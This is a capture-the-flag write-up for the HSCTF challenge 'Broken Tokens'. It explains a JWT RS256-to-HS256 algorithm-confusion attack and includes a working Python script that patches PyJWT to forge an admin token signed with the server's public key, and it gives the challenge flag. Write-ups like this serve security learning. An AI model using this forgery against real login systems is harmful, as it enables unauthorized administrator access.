 # Broken Tokens

## Problem

```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

## Solution
**Note:** *JWT generation script can be found under `script.py` in `scripts/brokentokens` folder.*

Highly similar to TJCTF task [Moar Horse 4](https://ctftime.org/writeup/20786).

Looking at the given `main.py`:
![](images/broken1.png)

The login form stores a JSON web token (JWT) on login. It checks if a specific value in this token, `auth`, equates to `"admin"` when decrypted.
We first login using random credentials. 
![](images/broken2.PNG)

Decoding the JWT shows that `auth` is set to guest, and the JWT algorithm is RS256. RS256 is an asymmetric encryption algorithm, meaning encryption/decryption uses a pair of private and public keys.
The site however does not check the algorithm used. We can exploit this using HS256, a symmetric encryption algorithm
where encryption/decryption uses the same key, instead. 

Using the publickey.pem provided on the site and the script below:
```
import json
import jwt
jwt.algorithms.HMACAlgorithm.prepare_key = lambda self, key : jwt.utils.force_bytes(key)


with open(r"C:\Users\brand\Desktop\publickey.pem", "rb") as file:
    PUBLIC_KEY = file.read()
print("public key : ")
print(PUBLIC_KEY)

data = {
        "auth": "admin"
    }

token = jwt.encode(data, PUBLIC_KEY, "HS256")
print("token : ")
print(token)
```

We can engineer a new encrypted `auth` value for the JWT token using HS256. Upon login, we update the value of `auth` to
the new value in the POST request and resend it. The site will allow us to log in as admin, showing the flag.

![](images/broken3.PNG)

![](images/broken4.PNG)

Flag: `flag{1n53cur3_tok3n5_5474212}`